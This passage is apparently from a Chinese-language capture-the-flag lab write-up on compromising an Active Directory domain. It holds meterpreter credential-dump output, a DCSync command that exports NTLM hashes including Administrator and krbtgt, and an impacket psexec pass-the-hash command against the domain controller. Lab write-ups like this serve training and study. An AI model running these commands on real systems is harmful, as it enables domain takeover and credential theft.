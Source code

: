 *伪造 Charles 的身份执行啥命令都是拒绝访问, 之后 impacket psexec.py 连上去的时候才发现是密码过期了...*

打 ms17-010 (在 vps 上打好像有点问题? 所以换成了本机 + proxychains 的方式)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282144590.png)

收集凭据

```shell
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username        Domain    NTLM                              SHA1
--------        ------    ----                              ----
XIAORANG-WIN7$  XIAORANG  474d95f0972b89f07c762044841ecb77  5c999df75d96227c3c5da11c228d394db182fe75

wdigest credentials
===================

Username        Domain    Password
--------        ------    --------
(null)          (null)    (null)
XIAORANG-WIN7$  XIAORANG  ...... (略)

kerberos credentials
====================

Username        Domain        Password
--------        ------        --------
(null)          (null)        (null)
xiaorang-win7$  XIAORANG.LAB  ...... (略)
xiaorang-win7$  XIAORANG.LAB  (null)
```

没啥可利用的信息, 不过这台机器有 DCSync 的权限, 所以能直接从域控上导出 Hash

本来应该用 BloodHound 或者 PowerView 收集下信息的, 但是时间 (💰) 不够了 (

```shell
meterpreter > kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   edc506302bf9b040febfb84a1459c0e8        532480
1104    XIAORANG-OA01$  673ec2d0ad2f73341c4b3e1fc2fbade5        4096
1103    XIAORANG-WIN7$  507797b66f76b8b71d20555b0c59f86d        4096
```

psexec pth
```shell
proxychains psexec.py -dc-ip 172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8 XIAORANG.LAB/administrator@172.22.1.2
```

在 Administrator 的家目录下拿到 flag03

![image-20230728215355537](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282153581.png)
